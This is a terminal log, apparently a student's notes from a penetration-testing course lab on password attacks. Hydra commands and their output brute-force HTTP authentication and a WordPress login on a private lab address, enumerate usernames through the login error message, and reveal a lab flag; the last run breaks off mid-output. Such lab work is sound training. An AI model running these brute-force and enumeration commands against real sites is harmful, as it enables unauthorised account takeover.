[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "richard" - 124 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "112233" - 125 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "princess1" - 126 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "555555" - 127 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "diamond" - 128 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "carolina" - 129 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "steven" - 130 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "rangers" - 131 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "louise" - 132 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "orange" - 133 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "789456" - 134 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "999999" - 135 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "shorty" - 136 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "11111" - 137 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "nathan" - 138 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "snoopy" - 139 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "gabriel" - 140 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "hunter" - 141 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "cherry" - 142 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "killer" - 143 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "sandra" - 144 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "alejandro" - 145 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "buster" - 146 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "george" - 147 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "brittany" - 148 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "alejandra" - 149 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "patricia" - 150 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "rachel" - 151 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "tequiero" - 152 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "7777777" - 153 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "cheese" - 154 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "159753" - 155 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "arsenal" - 156 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "dolphin" - 157 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "antonio" - 158 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "heather" - 159 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "david" - 160 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "ginger" - 161 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "stephanie" - 162 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "peanut" - 163 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "blink182" - 164 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "sweetie" - 165 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "222222" - 166 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "beauty" - 167 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "987654" - 168 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "victoria" - 169 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "honey" - 170 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "00000" - 171 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "fernando" - 172 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "pokemon" - 173 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "maggie" - 174 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "corazon" - 175 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "chicken" - 176 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "pepper" - 177 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "cristina" - 178 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "rainbow" - 179 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "kisses" - 180 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "manuel" - 181 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "myspace" - 182 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "rebelde" - 183 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "offsec" - pass "angel1" - 184 of 14344399 [child 7] (0/0)
[80][http-head] host: 192.168.125.52   login: offsec   password: fernando
[STATUS] attack finished for 192.168.125.52 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-08 19:17:16

HTTP Authentication Challenge

Great job. Here is your flag:
OS{4a9ceb352173b924c867071ef7c4c0be}



```

    You have found this list of possible employee username on target VM #5 inside the users.txt file on the web server's root path. Use this list and a password attack technique to log into this website.

```


└─$ hydra -L users.txt -p blahblah  $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.125.52%2Fwp-admin%2F&testcookie=1:Unknown username" -vVF
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-08 20:03:52
[DATA] max 16 tasks per 1 server, overall 16 tasks, 43 login tries (l:43/p:1), ~3 tries per task
[DATA] attacking http-post-form://192.168.125.52:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.125.52%2Fwp-admin%2F&testcookie=1:Unknown username
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 192.168.125.52 - login "steven" - pass "blahblah" - 1 of 43 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "louise" - pass "blahblah" - 2 of 43 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "nathan" - pass "blahblah" - 3 of 43 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "gabriel" - pass "blahblah" - 4 of 43 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "hunter" - pass "blahblah" - 5 of 43 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "alejandro" - pass "blahblah" - 6 of 43 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "buster" - pass "blahblah" - 7 of 43 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "george" - pass "blahblah" - 8 of 43 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "brittany" - pass "blahblah" - 9 of 43 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "blahblah" - 10 of 43 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "patricia" - pass "blahblah" - 11 of 43 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "antonio" - pass "blahblah" - 12 of 43 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "heather" - pass "blahblah" - 13 of 43 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "ginger" - pass "blahblah" - 14 of 43 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "stephanie" - pass "blahblah" - 15 of 43 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "victoria" - pass "blahblah" - 16 of 43 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "fernando" - pass "blahblah" - 17 of 43 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "maggie" - pass "blahblah" - 18 of 43 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "cristina" - pass "blahblah" - 19 of 43 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "manuel" - pass "blahblah" - 20 of 43 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "travis" - pass "blahblah" - 21 of 43 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "pamela" - pass "blahblah" - 22 of 43 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "ben" - pass "blahblah" - 23 of 43 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "kimberly" - pass "blahblah" - 24 of 43 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "shannon" - pass "blahblah" - 25 of 43 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "sophie" - pass "blahblah" - 26 of 43 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "jessie" - pass "blahblah" - 27 of 43 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "jeremy" - pass "blahblah" - 28 of 43 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "claudia" - pass "blahblah" - 29 of 43 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "angelica" - pass "blahblah" - 30 of 43 [child 11] (0/0)
[80][http-post-form] host: 192.168.125.52   login: michael   password: blahblah
[STATUS] attack finished for 192.168.125.52 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-08 20:03:53
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/19-PasswordAttacks]
└─$ hydra -l michael -P /usr/share/wordlists/rockyou.txt   $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.125.52%2Fwp-admin%2F&testcookie=1:Error" -vVF                           
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-08 20:05:03
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.125.52:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.125.52%2Fwp-admin%2F&testcookie=1:Error
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "abc123" - 10 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "nicole" - 11 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "daniel" - 12 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "babygirl" - 13 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "monkey" - 14 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "lovely" - 15 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "jessica" - 16 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "654321" - 17 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "michael" - 18 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "ashley" - 19 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "qwerty" - 20 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "111111" - 21 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "iloveu" - 22 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "000000" - 23 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "michelle" - 24 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "tigger" - 25 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "sunshine" - 26 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "chocolate" - 27 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "password1" - 28 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "soccer" - 29 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "anthony" - 30 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "friends" - 31 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "butterfly" - 32 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "purple" - 33 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "angel" - 34 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "jordan" - 35 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "liverpool" - 36 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "justin" - 37 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "loveme" - 38 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "fuckyou" - 39 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "123123" - 40 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "football" - 41 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "secret" - 42 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "andrea" - 43 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "carlos" - 44 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "jennifer" - 45 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "joshua" - 46 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "bubbles" - 47 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "1234567890" - 48 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "superman" - 49 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "hannah" - 50 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "amanda" - 51 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "loveyou" - 52 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "pretty" - 53 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "basketball" - 54 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "andrew" - 55 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "angels" - 56 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "tweety" - 57 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "flower" - 58 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "playboy" - 59 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "hello" - 60 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "elizabeth" - 61 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "hottie" - 62 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "tinkerbell" - 63 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "charlie" - 64 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "samantha" - 65 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "barbie" - 66 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "chelsea" - 67 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "lovers" - 68 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "teamo" - 69 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "jasmine" - 70 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "brandon" - 71 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "666666" - 72 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "shadow" - 73 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "melissa" - 74 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "eminem" - 75 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "matthew" - 76 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "robert" - 77 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "danielle" - 78 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "forever" - 79 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "family" - 80 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "jonathan" - 81 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "987654321" - 82 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "computer" - 83 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "whatever" - 84 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "dragon" - 85 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "vanessa" - 86 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "cookie" - 87 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "naruto" - 88 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "summer" - 89 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "sweety" - 90 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "spongebob" - 91 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "joseph" - 92 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "junior" - 93 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "softball" - 94 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "taylor" - 95 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "yellow" - 96 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "daniela" - 97 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "lauren" - 98 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "mickey" - 99 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "princesa" - 100 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "alexandra" - 101 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "alexis" - 102 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "jesus" - 103 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "estrella" - 104 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "miguel" - 105 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "william" - 106 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "thomas" - 107 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "beautiful" - 108 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "mylove" - 109 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "angela" - 110 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "poohbear" - 111 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "patrick" - 112 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "iloveme" - 113 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "sakura" - 114 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "adrian" - 115 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "alexander" - 116 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "destiny" - 117 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "christian" - 118 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "121212" - 119 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "sayang" - 120 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "america" - 121 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "dancer" - 122 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "monica" - 123 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "richard" - 124 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "112233" - 125 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "princess1" - 126 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "555555" - 127 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "diamond" - 128 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "carolina" - 129 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "steven" - 130 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "rangers" - 131 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "louise" - 132 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "orange" - 133 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "789456" - 134 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "999999" - 135 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "shorty" - 136 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "11111" - 137 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "nathan" - 138 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "snoopy" - 139 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "gabriel" - 140 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "hunter" - 141 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "cherry" - 142 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "killer" - 143 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "sandra" - 144 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "alejandro" - 145 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "buster" - 146 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "george" - 147 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "brittany" - 148 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "alejandra" - 149 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "patricia" - 150 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "rachel" - 151 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "tequiero" - 152 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "7777777" - 153 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "cheese" - 154 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "159753" - 155 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "arsenal" - 156 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "dolphin" - 157 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "antonio" - 158 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "heather" - 159 of 14344399 [child 15] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "david" - 160 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "ginger" - 161 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.125.52 - login "michael" - pass "stephanie" - 162 of 14344399 [child 6] (0/0)
